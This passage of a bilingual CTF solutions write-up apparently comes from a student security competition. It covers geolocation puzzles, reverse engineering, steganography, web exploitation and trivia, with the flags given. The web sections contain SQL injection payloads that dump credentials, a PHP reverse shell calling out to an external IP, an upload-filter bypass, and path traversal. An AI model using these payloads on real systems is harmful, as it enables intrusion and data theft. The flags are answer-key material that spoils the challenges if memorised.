| 9ème   | 13, 33                   | Recherche par image sur Google qui nous dirige vers [ce site](https://steemit.com/graffiti/@heroldius/street-art-244-monosourcil-montreal) sur lequel on trouve l'emplacement.                                                                       |
| 10ème  | 24                       | On peut lire le nom de l'entreprise de lavage auto à droite: "RM". En cherchant sur Google "lave auto RM montréal" on trouve l'emplacement.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 12ème  | 14, 15, 20, 31, 37, 38   | Recherche par image sur Google qui nous indique qu'il s'agit du [parc de l'Ukraine](https://maps.app.goo.gl/mDtRGfUGTJhUnsnX9). La photo a été prise depuis la 12ème Avenue. |
| 13ème  | 12                       | On repère la meme sculpture que pour la 12ème Avenue. La photo a été prise depuis l'autre coté du parc de l'Ukraine, c'est à dire depuis la 13ème Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 14ème  | 3, 6, 18, 27             | On peut lire le nom d'une entreprise en bas à droite: "Altapex". En cherchant le nom sur Google, on trouve que la photo a été prise depuis la 14ème Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 15ème  | 5, 34                    | On peut lire le nom du restaurant: "Champion pizza", ainsi que le nom d'une rue "beaubien". En cherchant les deux sur Google on trouve l'emplacement de la photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 16ème  | 19, 28, 35               | Recherche par image sur Google et on trouve qu'il s'agit de la station de pompage du quartier Rosemont.                                                                                                                                                |
| 18ème  | 1, 8, 32                 | On peut lire "Technologie Rosemont" sur la store bleu. En cherchant "Technologie Rosemont" sur Google on trouve qu'il s'agit du Centre de technologie Rosemont.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 20ème  | 7                        | On peut lire le mot "Comptables" ainsi qu'un numéro de téléphone "376-4090". En cherchant sur Google "comptables 376-4090" on trouve l'entreprise [Gosselin Associés](https://gosselin-ca.com/nous-joindre/).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 21ème  | 11, 17, 30               | Dans l'arrière plan on peut lire "écho du coeur". En recherchant sur Google "l'écho du coeur montréal" on découvre qu'il s'agit d'une garderie et on trouve l'emplacement de la photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |

---

**Solution EN**

By looking for the places where the photos were taken we can notice something: they are taken in numbered avenues of Montréal.

By finding in which avenue each photo is taken we obtain the following sequence of numbers:
18, 5, 14, 3, 15, 14, 20, 18, 5, 1, 21, 13, 9, 12, 12, 5, 21, 14, 16, 12, 1, 3, 5, 10, 5, 1, 14, 16, 1, 21, 12, 18, 9, 15, 16, 5, 12, 12, 5

Noting that all numbers are less than 26 we can convert them into letters (with [CyberChef](https://gchq.github.io/CyberChef/#recipe=A1Z26_Cipher_Decode('Space')&input=MTgsIDUsIDE0LCAzLCAxNSwgMTQsIDIwLCAxOCwgNSwgMSwgMjEsIDEzLCA5LCAxMiwgMTIsIDUsIDIxLCAxNCwgMTYsIDEyLCAxLCAzLCA1LCAxMCwgNSwgMSwgMTQsIDE2LCAxLCAyMSwgMTIsIDE4LCA5LCAxNSwgMTYsIDUsIDEyLCAxMiwgNQ) for example) and we find (by adding the spaces).

        rencontre au mille un place jean paul riopelle

With a Google search we find that 1001 Place Jean-Paul Riopelle corresponds to the address of the Palais des Congrès.

To find photo locations:

| Avenue | Pictures                   | Possible solution                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|--------|--------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1ère   | 10, 21, 26, 29           | We can read in the photo that it is the Saint Marc school                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 3ème   | 4, 22                    | Search by image on Google and we find [this page](https://ville.montreal.qc.ca/murales/detail/167) which gives us the location.                            |
| 5ème   | 2, 9, 16, 23, 25, 36, 39 | We can read the name of a store "La shop techno" and a Google search gives us the address                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 9ème   | 13, 33                   | Search by image on Google that directs us to [this site](https://steemit.com/graffiti/@heroldius/street-art-244-monosourcil-montreal) on which we find the location.                                                                       |
| 10ème  | 24                       | We can read the name of the car wash company on the right: "RM". By searching on Google for "lave auto RM Montreal" you can find the location.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 12ème  | 14, 15, 20, 31, 37, 38   | Search by image on Google which tells us that this is the [Ukrainian park](https://maps.app.goo.gl/mDtRGfUGTJhUnsnX9). The photo was taken from 12th Avenue. |
| 13ème  | 12                       | We spot the same sculpture as for 12th Avenue. The photo was taken from the other side of Ukraine Park, that is to say from 13th Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 14ème  | 3, 6, 18, 27             | We can read the name of a company at the bottom right: "Altapex". Googling the name reveals that the photo was taken from 14th Avenue.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 15ème  | 5, 34                    | We can read the name of the restaurant: "Champion pizza", as well as the name of a street "Beaubien". Googling both shows the location of the photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 16ème  | 19, 28, 35               | Search by image on Google we find that it is the pumping station of the Rosemont district.                                                                                                                                                |
| 18ème  | 1, 8, 32                 | We can read "Technologie Rosemont" on the blue blind. By searching for "Technologie Rosemont" on Google we find that it is the Rosemont Technology Center.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 20ème  | 7                        | We can read the word "Comptables" as well as a telephone number "376-4090". By searching on Google “Comptables 376-4090” you find the company [Gosselin Associés](https://gosselin-ca.com/nous-joindre/).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 21ème  | 11, 17, 30               | In the background we can read "écho du coeur". By searching on Google for "l'écho du coeur montréal" we discover that it is a daycare and we find the location of the photo.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |


---

**Flag**

`polycyber{palais_des_congrès}`

---
</details>


<details>
  <summary>Sur les traces de Scofield 1</summary>

**Solution FR**

Il faut commencer par trouver de quelle prison s'est enfuis Michael Scofield. Après une [rapide recherche](https://fr.wikipedia.org/wiki/Prisons_de_Prison_Break#P%C3%A9nitencier_d'%C3%89tat_de_Fox_River_(Fox_River_State_Penitentiary)), on apprend que c'est l'ancienne prison de Joliet qui a servi de lieu de tournage pour la prison de Fox River.
Maintenant, on va chercher l'aérodrome de la ville de Joliet et on trouve [ce site](https://jolietpark.org/joliet-regional-airport). On trouve dans l'onglet "Pilot Services" l'identifiant FAA de l'aérodrome : **JOT**. On calcule son hash MD5 ce qui nous donne le flag.

---

**Solution EN**

We need to start by finding out which prison Michael Scofield escaped from. After a [quick search](https://en.wikipedia.org/wiki/Prison_Break#Filming), we learned that it was the former Joliet prison that served as a filming location for Fox River Prison.
Now we go look for the city of Joliet airfield and we find [this site](https://jolietpark.org/joliet-regional-airport). In the “Pilot Services” tab you can find the FAA identifier of the aerodrome: **JOT**. We calculate its MD5 hash which gives us the flag.

---

**Flag**

`polycyber{88be398c2d0a9c6fccbeb28b020c3226}`

---
</details>

<details>
  <summary>Sur les traces de Scofield 2</summary>

**Solution FR**

Il faut commencer par retrouver la marque de ces bâtonnets au fromage.
2 façons parmi d'autres:
- Une recherche avec Google Image nous permet de trouver ce [groupe Facebook](https://www.facebook.com/groups/149535758996361/) de fans de Cheezies.
- Comme on demande un identifiant [TC LID](https://fr.wikipedia.org/wiki/Indicateur_d%27emplacement#Indicateur_de_Transports_Canada), on cherche un aérodrome canadien. Sur [Wikipedia](https://en.wikipedia.org/wiki/Cheese_puffs#Notable_brands) on trouve la liste des plus importantes marques de bâtonnets au fromage et une seule est canadienne c'est Cheezies.
 
Une fois qu'on a trouvé [la marque](https://en.wikipedia.org/wiki/Cheezies), on découvre que la production se fait dans la ville de Belleville, Ontario et que [l'inventeur des Cheezies](https://en.wikipedia.org/wiki/James_Marker) y a fondé [un aérodrome](https://en.wikipedia.org/wiki/Belleville_Aerodrome).
L'identifiant de cet aérodrome est **CNU4**. On calcule son hash MD5 ce qui nous donne le flag.

---

**Solution EN**

You have to start by finding the brand of these cheese sticks.
2 ways among others:
- A search with Google Image allows us to find this [group Facebook](https://www.facebook.com/groups/149535758996361/) of Cheezies fans.
- Since we are asking for an identifier [TC LID](https://fr.wikipedia.org/wiki/Indicateur_d%27emplacement#Indicateur_de_Transports_Canada), we are looking for a Canadian aerodrome. On [Wikipedia](https://en.wikipedia.org/wiki/Cheese_puffs#Notable_brands) we find the list of the most important brands of cheese sticks and only one is Canadian, Cheezies.

Once we found [the brand](https://en.wikipedia.org/wiki/Cheezies), we discovered that production was done in the town of Belleville, Ontario and that [the inventor of Cheezies](https://en.wikipedia.org/wiki/James_Marker) founded [an aerodrome](https://en.wikipedia.org/wiki/Belleville_Aerodrome) there. The identifier of this aerodrome is **CNU4**. We calculate its MD5 hash which gives us the flag.

---

**Flag**

`polycyber{c28c51c8b2f9c2ddbf331a3e56e664be}`

---
</details>

<details>
  <summary>Sur les traces de Scofield 3</summary>

**Solution FR**

Plusieurs éléments permettent de trouver le nom de la ville dans laquelle se trouve la plage:
- Le nom de la ville de Toronto sur un panneau de la photo
- Un champ "Description" dans les métadonnées de l'image (que l'on peut observer avec l'outil [exiftool](https://exiftool.org/)) indique "Toronto Islands"

Ensuite pour trouver la plage exacte, il faut utiliser l'information de la distance parcourue: 759 km. Pour ça on peut utiliser un outil comme [CalcMaps](https://www.calcmaps.com/fr/). Avec la fonctionnalité "Rayon" on trace un cercle partant de l'aérodrome de Joliet et mesurant 759 km de rayon.

Puis on va s'intéresser à l'intersection du cercle avec Toronto.

On peut notament remarquer que le cercle coupe "Ward's Island Beach" et lorsque l'on observe cette plage avec [Google Street View](https://maps.app.goo.gl/xjmiSmfhx3A7t8RB7) on reconnait l'endroit de la photo !

---

**Solution EN**

Several elements allow you to find the name of the city in which the beach is located:
- The name of the city of Toronto on a sign in the photo
- A "Description" field in the image metadata (which can be observed with the [exiftool](https://exiftool.org/) tool) indicates "Toronto Islands"

Then to find the exact range, you must use the information on the distance traveled: 759 km. For this we can use a tool like [CalcMaps](https://www.calcmaps.com/fr/). With the "Radius" functionality we draw a circle starting from the Joliet aerodrome and measuring 759 km in radius.

Then we will look at the intersection of the circle with Toronto.

We can notably notice that the circle intersects "Ward's Island Beach" and when we observe this beach with [Google Street View](https://maps.app.goo.gl/xjmiSmfhx3A7t8RB7) we recognize the location of the photo !

---

**Flag**

`polycyber{ward's_island_beach}`

---
</details>

## Reverse

<details>
  <summary>Keypad</summary>

**Solution FR**
Ouvrez le binaire dans un décompilateur et naviguez à la fonction `NimMainModule`. Vous y verrez toute la logique du programme. En particulier, une ligne fait la comparaison entre le chiffre courant et le chiffre correspondant dans le code secret.


Vous n'avez qu'à aller à ce symbole pour voir le bon PIN. Les chiffres sont encodés sur 64 bits, donc vous pouvez les afficher comme étant des `longlong` pour plus de clarté.


Vous pouvez maintenant lire les 8 chiffre et les utiliser pour créer le flag.

---

**Solution EN**
Open the binary in a decompiler and navigate to the `NimMainModule` fonction. You should see all the logic of the program there. In particular, there is one line that compares the current digit with the secret digit.


You only need to go to that symbol's address to find the correct keypad. The numbers are stored as 64 bits integers, so you need to cast the variable as an array of `longlong` for clarity.


You can then read the 8 digits and use them to craft the flag.

---

**Flag**

`polycyber{29385914}`

---
</details>


<details>
  <summary>Prison Cells</summary>

**Solution FR**

Ce défi peut être résolu de quelques façons différentes.

Tout d'abord, on remarque que l'on a la possibilité d'ouvrir les cellules de prison, mais rien d'intéressant ne s'en suit. En désassemblant/décompilant le programme avec un outil comme Ghidra, on observe qu'une option "flag" est aussi disponible. C'est la trace qu'on utilisé les précédents criminels qui ont aidé à faire sortir leur ami Davey de la prison. Un problème se pose toutefois: le programme demande de prouver qu'on est bien Davey.

On peut comprendre que le programme contacte une url, mais celle-ci est décryptée dynamiquement. Cette fonction de décryption semble assez difficile à comprendre. L'oeil aguerri saura le reconnaitre, mais il est aussi possible de le présenter à un LLM comme ChatGPT, qui saura l'identifier. Lorsqu'on sait que l'encryption est RC4, il est possible de récupérer le texte chiffré (premier paramètre) ainsi que la clé (troisième paramètre). Il est possible que Ghidra laisse la clé sous le format hexadécimal. Il suffit alors de retyper la variable à char[4] pour qu'on voit plus clairement que la valeur est plutôt "flag". Lorsqu'on utilise ensuite CyberChef avec la recette (1) From Hex et (2) RC4 (avec "flag" comme clé) on obtient alors la valeur décryptée: get_flag_328cd65f3ec16a7c64bebdd90d2e2b3c (voici la valeur encryptée pour convenance: 0x8895a056ad8a2a57e56ae76013ebde5bafa34306e00cc7df481b06ab733ba5cf5b81f19441b59a8e62)

On peut voir que la suite du programme consiste simplement à concaténer l'adresse du serveur à la chaine de caractères que l'on vient d'obtenir. On peut alors simplement contacter le serveur et récupérer le flag avec un programme comme curl!

Il aurait aussi été possible de rouler le programme dans un débuggeur puis récupérer la route HTTP décryptée, mais il y avait une petite protection pour l'empêcher. En effet, une fonction (qui était appelée à quelques endroits dans le programme) terminait l'exécution du programme lorsque gdb était détectée. Pour contourner cela, il était possible d'utiliser un autre débuggeur ou modifier le binaire pour contourner la fonction d'anti-debug.

Lorsque exécuté, le programme demande aussi de vérifier que nous sommes bien Davey. Pour lui faire croire que c'est le cas, il faut entrer le mot de passe qui est encrypté dans le programme avec un simple XOR utilisant 0x09 comme clé. En appliquant plutôt un xor sur la clé encrypté, on obtient XUQWeHDQaCbBZZcQ, qui correspond bien au mot de passe. On peut découvrir ces informations en analysant la seconde fonction appelée dans celle qui s'occupe de la connexion internet (celle qui utilise les fonctions curl_easy_init, curl_easy_setopt, etc).

Il était aussi possible de laisser le programme contacter le serveur et récupérer le flag, mais celui-ci n'est alors pas affiché car il est directement stocké en mémoire. Pour trouver cette adresse, il suffit de consulter la fonction de connexion internet, récupérer la fonction de callback qui traite la valeur de retour du serveur (fournie au second appel à curl_easy_setopt) et récupérer l'adresse mémoire. Ceci aurait permis de récupérer le flag si on souhaitait exécuter tout le programme dans un débuggeur.

Finalement, une autre méthode aurait été de rouler le programme normalement, rentrer la valeur demandée, puis récupérer la réponse du serveur avec l'aide d'un sniffeur réseau comme Wireshark.

---

**Solution EN**

This challenge can be solved in a few different ways.

Firstly, it is noticed that there is the option to open the prison cells, but nothing interesting follows from it. By disassembling/decompiling the program using a tool like Ghidra, one observes that a "flag" option is also available. This is the trace used by previous criminals who helped their friend Davey escape from prison. However, a problem arises: the program requires proof that one is indeed Davey.

It is understood that the program contacts a URL, but it is decrypted dynamically. This decryption function seems quite challenging to understand. An experienced eye may recognize it, or it can be presented to a Language Model like ChatGPT, which can identify it. Knowing that the encryption is RC4, it is possible to retrieve the encrypted text (first parameter) and the key (third parameter). Ghidra might leave the key in hexadecimal format. Simply retyping the variable to char[4] makes it clear that the value is "flag." Using CyberChef with the recipe (1) From Hex and (2) RC4 (with "flag" as the key), the decrypted value is obtained: get_flag_328cd65f3ec16a7c64bebdd90d2e2b3c (here is the encrypted value for convenience: 0x8895a056ad8a2a57e56ae76013ebde5bafa34306e00cc7df481b06ab733ba5cf5b81f19441b59a8e62).

The next step in the program is to concatenate the server address to the string obtained. Then, one can simply contact the server and retrieve the flag using a program like curl!

It would have also been possible to run the program in a debugger and retrieve the decrypted HTTP route, but there was a small protection to prevent it. A function (called at various points in the program) terminated the program when GDB was detected. To circumvent this, another debugger could be used, or the binary could be modified to bypass the anti-debug function.

When executed, the program also asks to verify that one is indeed Davey. To make it believe so, the password encrypted in the program with a simple XOR using 0x09 as the key should be entered. Applying XOR to the encrypted key, XUQWeHDQaCbBZZcQ is obtained, which corresponds to the password. These details can be discovered by analyzing the second function called within the one handling internet connection (the one using functions like curl_easy_init, curl_easy_setopt, etc).

It was also possible to let the program contact the server and retrieve the flag, but it was not displayed as it was directly stored in memory. To find this address, inspect the internet connection function, retrieve the callback function processing the server's return value (provided in the second call to curl_easy_setopt), and obtain the memory address. This would have allowed retrieving the flag if one wanted to execute the entire program in a debugger.

Finally, another method would have been to run the program normally, enter the requested value, and then retrieve the server's response with the help of a network sniffer like Wireshark.

---

**Flag**

`polycyber{GU4RD5_CH4NG3_SH1F7_47_M1DN1GH7}`

---
</details>

## Steganography

<details>
  <summary>Inkblot</summary>

**Solution FR**

Pour dévoiler le flag, les participants devront utiliser l'outil [OpenStego](https://github.com/syvaidya/openstego). Suivez les étapes suivantes :
1. Lancez OpenStego et sélectionnez l'option "Extraire les données".
2. Chargez le fichier image suspect dans le champ "Fichier stego d'entrée".
3. Spécifiez le dossier de sortie pour le fichier de message.
4. Cliquez sur "Extraire les données" et attendez la révélation du message caché.
Une fenêtre de confirmation apparaîtra, indiquant la réussite de l'extraction. Le flag se trouve dans le fichier extrait, prêt à être revendiqué.

---

**Solution EN**

To unveil the flag, participants will need to use the tool [OpenStego](https://github.com/syvaidya/openstego). Follow these steps:
1. Launch OpenStego and select the "Extract data" option.
2. Load the suspect image file into the "Input stego file" field.
3. Specify the output folder for the message file.
4. Click on "Extract data" and await the revelation of the hidden message.
A confirmation window will appear, indicating the successful extraction. The flag is located in the extracted file, ready to be claimed.

---

**Flag**

`polycyber{St3g0_1s_FuN}`

---
</details>

## Web Exploitation

<details>
  <summary>Cafeteria Meals 1</summary>

**Solution FR**

1. Inspecter la page.
2. Trouver le flag en clair avec l'indice vers /guid en dessous.

---

**Solution EN**

1. Inspect page.
2. Find flag in plain text with hint to /guid below.

---

**Flag**

`polycyber{you_should_4lw4y5_t4k3_a_look_at_the_5ourc3_51abff21c}`

---

</details>

<details>
  <summary>Bookworm 1</summary>

**Solution FR**

#### Première partie du défi

##### Étape 1 : Découverte de l'injection SQL

Lorsque vous accédez au site de recherche de livres, vous remarquez une vulnérabilité d'injection SQL dans le champ de recherche. Cela signifie que vous pouvez potentiellement interagir avec la base de données sous-jacente.

##### Base de données
Pour commencer, vous voulez obtenir les noms de toutes les bases de données disponibles. Vous pouvez utiliser la commande suivante dans le champ de recherche :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata-- -`

*Cela récupérera les noms de toutes les bases de données et les affichera sous forme de chaîne concaténée.*

###### Tables
Après avoir obtenu les noms des bases de données, vous pouvez choisir une base de données spécifique (par exemple, "library") et récupérer les noms de toutes les tables dans cette base de données :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="library"-- -`

*Cela récupérera les noms de toutes les tables dans la base de données "library".*
##### Colonnes
Maintenant que vous avez les noms de tables, vous pouvez sélectionner une table spécifique (par exemple, "Admin") et récupérer les noms de toutes les colonnes dans cette table :

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="Admin"-- -`

*Cela récupérera les noms de toutes les colonnes dans la table "Admin".*

##**Flag** 1
Enfin, vous pouvez utiliser les noms de colonnes que vous avez obtenus pour extraire les données de la table "Admin" et ainsi obtenir le Flag 1. Voici la commande :

`-1' UNION SELECT 1, GROUP_CONCAT('Username: ', username, ' | Password: ', password) FROM Admin-- -`

*Cela récupérera les informations d'identification des utilisateurs stockées dans la table "Admin" sous forme de chaîne concaténée.*

---

**Solution EN**

#### Part 1 of the Challenge

##### Step 1: SQL Injection Discovery

When you access the book search website, you notice a SQL injection vulnerability in the search field. This means you can potentially interact with the underlying database.

##### Database
To start, you want to get the names of all available databases. You can use the following command in the search field:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata-- -`

*This will retrieve the names of all databases and display them as a concatenated string.*

##### Tables
After obtaining the names of databases, you can select a specific database (e.g., "library") and retrieve the names of all tables in that database:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema="library"-- -`

*This will retrieve the names of all tables in the "library" database.*

##### Columns
Now that you have table names, you can select a specific table (e.g., "Admin") and retrieve the names of all columns in that table:

`-1' UniOn Select 1, GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name="Admin"-- -`

*This will retrieve the names of all columns in the "Admin" table.*

##**Flag** 1
Finally, you can use the column names you obtained to extract data from the "Admin" table and obtain Flag 1. Here's the command:

`-1' UNION SELECT 1, GROUP_CONCAT('Username: ', username, ' | Password: ', password) FROM Admin-- -`

*This will retrieve user credentials stored in the "Admin" table as a concatenated string.*

---

**Flag**

`polycyber{SQL_Br3ak0ut}`


---
</details>


<details>
  <summary>Bookworm 2</summary>

**Solution FR**

#### Deuxième partie du défi

##### Étape 2 : Utilisation des informations d'identification

Maintenant que vous avez les informations d'identification de l'administrateur (Flag 1), vous pouvez vous connecter à la page "upload.php" en utilisant ces informations.

##### Étape 3 : Contournement de la protection lors de l'upload

Lors de l'upload de fichiers sur la page "upload.php", vous essayez d'uploader un fichier PHP pour obtenir un reverse shell mais c'est bloqué. Pour contourner cette protection, vous allez utiliser une autre extension PHP, par exemple, ".php5".

Voici les étapes à suivre pour réussir :

1. Créez un fichier reverse shell PHP en utilisant un générateur en ligne comme https://www.revshells.com/. Entrez votre adresse IP et le port que vous souhaitez utiliser, recherchez un shell PHP approprié, copiez le contenu généré (utilisez le bouton "Copy" en bas à droite), enregistrez le fichier sous le format ".php5". Exemple de reverse shell:

```php
<?php
$cmd = 'bash -c \'(exec bash -i &>/dev/tcp/162.210.192.215/30979 0>&1) &\'';
system($cmd);
?>
```

2. Uploadez le fichier shell ".php5" sur le site du challenge. Le téléchargement réussira car il contient une extension autorisée.

3. Une fois le fichier téléchargé, vous recevrez un lien avec un nom de fichier aléatoire (/uploads/nomdufichier.php5). Vous pouvez y accéder en tapant l'adresse http://urlduchallenge/uploads/nomdufichier.php5.

4. Pour établir une connexion inverse (reverse shell), ouvrez un terminal sur une machine avec un port exposé (possible d'utiliser une service en ligne comme https://www.thc.org/segfault/) et lancez un listener. La commande suivante peut parfois suffir: nc -lvnp 9001 (utilisez le port que vous avez spécifié pour votre reverse shell). Sur https://www.thc.org/segfault/, vous pouvez simplement lancer la commande `rshell`.

5. Visitez l'URL du fichier ".php5" sur le navigateur (http://urlduchallenge/uploads/nomdufichier.php5) pour exécuter le reverse shell. Vous devriez recevoir une connexion inverse sur votre terminal.

##### Étape 4 : Recherche du Flag 2

Maintenant que vous avez un accès shell sur la machine, explorez les répertoires et fichiers pour trouver le Flag 2. Vous le trouverez dans le dossier /var/www/flag.txt.

##**Flag** 2
Le Flag 2 est situé dans le fichier /var/www/flag.txt. Vous pouvez l'afficher avec la commande appropriée depuis le shell (`cat flag.txt`).

Félicitations, vous avez réussi à trouver le Flag 2 !

---

**Solution EN**

#### Part 2 of the Challenge

##### Step 2: Using the Credentials

Now that you have the administrator's credentials (Flag 1), you can log in to the "upload.php" page using these credentials.

##### Step 3: Bypassing the Upload Protection

During file uploads on the "upload.php" page, you attempt to upload a PHP file to get a reverse shell, but it's blocked. To bypass this protection, you will use a different PHP extension, for example, ".php5".

Here are the steps to succeed:

1. Create a PHP reverse shell file using an online generator like https://www.revshells.com/. Enter your IP address and the port you want to use, search for a suitable PHP shell, copy the generated content (use the "Copy" button at the bottom right), save the file as ".php5". Example of reverse shell:

```php
<?php
$cmd = 'bash -c \'(exec bash -i &>/dev/tcp/162.210.192.215/30979 0>&1) &\'';
system($cmd);
?>
```

2. Upload the ".php5" shell file to the challenge website. The upload will succeed because it has an allowed extension.

3. Once the file is uploaded, you will receive a link with a random file name (/uploads/filename.php5). You can access it by typing the URL http://challengeurl/uploads/filename.php5.

4. To establish a reverse shell connection, open a terminal on a machine with an exposed port (you can use an online service like https://www.thc.org/segfault/) and start a listener. The following command may sometimes suffice: nc -lvnp 9001 (use the port you specified for your reverse shell). On https://www.thc.org/segfault/, you can simply execute the command rshell.

5. Visit the URL of the ".php5" file in your browser (http://challengeurl/uploads/filename.php5) to execute the reverse shell. You should receive a reverse connection on your terminal.

##### Step 4: Finding Flag 2

Now that you have shell access to the machine, explore directories and files to find Flag 2. You will find it in the /var/www/flag.txt directory.

##**Flag** 2
Flag 2 is located in the file /var/www/flag.txt. You can view it with the appropriate command from the shell (`cat flag.txt`).

Congratulations, you have successfully found Flag 2!

---

**Flag**

`polycyber{UPL04D_BYP4SS_SUCC3SS}`

---
</details>

<details>
  <summary>Paul's Dirty Secret 1</summary>

**Solution FR**

#### Etape 1 : Découverte du site

En se connectant à l'adresse donnée, on est redirigé vers "fun-in-jail.ctf". Il faut l'ajouter à notre `/etc/hosts` sur Linux (`C:\Windows\System32\drivers\etc\hosts` sur Windows). Si ça n'arrive pas directement, la redirection aura lieu à l'étape 2.

#### Etape 2 : Trouver un point d'entrée

Avec un peu de fuzzing (ou de guessing), on trouve facilement 2 potentielle page : `login.php` et `admin.php`, mais la seconde nous redirige sur le login.
Avec quelques tests on peut se rendre compte qu'il y a une injection SQL sur le login

#### Etape 3 : Exploiter l'injection SQL

L'injection est facilement exploitable, seulement il ne faut qu'1 seule *row* en réponse.
La payload est donc la suivante :
`' OR 1=1 LIMIT 1; -- `

On est connecté sur la page `admin.php`

#### Etape 4 : Exploiter une LFI

Ici, on peut lire différents fichiers.
Seulement, en modifiant le paramètre `filename`, on peut contrôler le fichier à lire.
On peut notamment effectuer un *Path Traversal*.

En cherchant à lire le fichier *index.php*, on va remonter les dossier en utilisant `..`.
Avec `../index.php` on peut lire l'index et on a un premier flag.

---

**Solution EN**

#### Step 1: Site Discovery

Upon connecting to the provided address, we are redirected to "fun-in-jail.ctf". It needs to be added to our `/etc/hosts` on Linux (`C:\Windows\System32\drivers\etc\hosts` on Windows). If it doesn't happen directly, the redirection will occur at step 2.

#### Step 2: Finding an Entry Point

With a bit of fuzzing (or guessing), we easily find 2 potential pages: `login.php` and `admin.php`, but the latter redirects us to the login. Through some tests, we realize there's an SQL injection on the login.

#### Step 3: Exploiting the SQL Injection

The injection is easily exploitable; we just need one *row* in response. The payload is as follows:
`' OR 1=1 LIMIT 1; -- `

We're connected to the `admin.php` page.

#### Step 4: Exploiting an LFI

Here, we can read various files. However, by modifying the `filename` parameter, we can control the file to read. We can notably perform a *Path Traversal*.

By attempting to read the *index.php* file, we traverse directories using `..`. With `../index.php`, we can read the index and obtain our first flag:

---

**Flag**

`polycyber{SQLi_To_LFI_but_where_is_the_hidden_site?}`

---
</details>

<details>
  <summary>Paul's Dirty Secret 2</summary>

**Solution FR**

#### Etape 1 : Trouver le site secret

On nous parle d'un site secret, mais où peut-il bien être ?
En se renseignant un peu, on apprend qu'on peut définir plusieurs vhost [voir ici](https://httpd.apache.org/docs/2.4/vhosts/examples.html)

On peut trouver notamment 2 fichiers par défaut pour les configurer :
- `/etc/apache2/sites-available/000-default.conf`
- `/etc/apache2/sites-enabled/000-default.conf`


Et en allant les lire on trouve un nouveau vhost et le chemin vers ses fichiers : *secret-barbapapa-addicts.ctf*

#### Etape 2 : Obtenir les données cachées

On trouve un site en l'honneur des barbapapas. Malheureusement un mot de passe/secret est demandé.
En réutilisant la vulnérabilité LFI trouvée plus tôt, on peut aller lire le fichier `/var/www/html/secret-site/index.php`.
On voit que le mot de passe que l'on donne est hashé en Sha1 et vérifié avec un secret en base de données.
On peut aussi noter la présence d'une comparaison faible :
```php
if ($row["secret"] == $password)
```


En réutilisant aussi l'injection SQL, on peut obtenir, par Boolean Based ou Time Based, la valeur de ce secret.
Le secret est le suivant : `0e39467675362791795113850062806237025205`

On voit qu'il commence par `0e` et n'est composé que de chiffre.
En exploitant ceci et la comparaison faible, on peut contourner le secret !

En allant chercher [ici](https://github.com/spaze/hashes/blob/master/sha1.md), on peut trouver une liste de "magic hash", des valeurs qui une fois hashées en Sha1 donnent `0exxxx`.
On en prend un au hasard (par exemple *aaO8zKZF*) et on l'envoie, ce qui nous donne le 2ème flag !

---

**Solution EN**

#### Step 1: Finding the Secret Site

We're told about a secret site, but where could it be? After some research, we learn that we can define multiple vhosts [see here](https://httpd.apache.org/docs/2.4/vhosts/examples.html).

We can find 2 default files to configure them:
- `/etc/apache2/sites-available/000-default.conf`
- `/etc/apache2/sites-enabled/000-default.conf`

By reading these files, we find a new vhost and the path to its files: *secret-barbapapa-addicts.ctf*

#### Step 2: Obtaining the Hidden Data

We find a site honoring the barbapapas. Unfortunately, a password/secret is required. By reusing the LFI vulnerability found earlier, we can read the file `/var/www/html/secret-site/index.php`. We see that the password we provide is hashed in Sha1 and verified with a secret in the database. We also note the presence of a weak comparison:
```php
if ($row["secret"] == $password)
```

By also reusing the SQL injection, we can obtain, through Boolean-Based or Time-Based techniques, the value of this secret.
The secret is as follows: `0e39467675362791795113850062806237025205`.

We see that it starts with `0e` and consists only of digits. By exploiting this and the weak comparison, we can bypass the secret!

By looking [here](https://github.com/spaze/hashes/blob/master/sha1.md), we can find a list of "magic hashes," values that when hashed in Sha1 give `0exxxx`. We randomly select one (for example *aaO8zKZF*) and send it, which gives us the second flag!

---

**Flag**

`polycyber{One_server_multiple_vhosts...And_use_===_please!}`


---
</details>


## Trivia

<details>
  <summary>March 28th</summary>

**Solution FR**

Une rapide recherche dans l'actualité nous pointe vers Ross Anderson.

On peut trouver son CV en ligne.

En 1996, il travaillait pour l'institut Isaac Newton.

---

**Solution EN**

A quick news search points us to Ross Anderson.

His CV can be found online.

In 1996, he was working for the Isaac Newton Institute.

---

**Flag**

`polycyber{isaac_newton}`

---
</details>

<details>
  <summary>Loi 25 | Law 25</summary>

**Solution FR**

Le magasine est la Gazette du Québec.


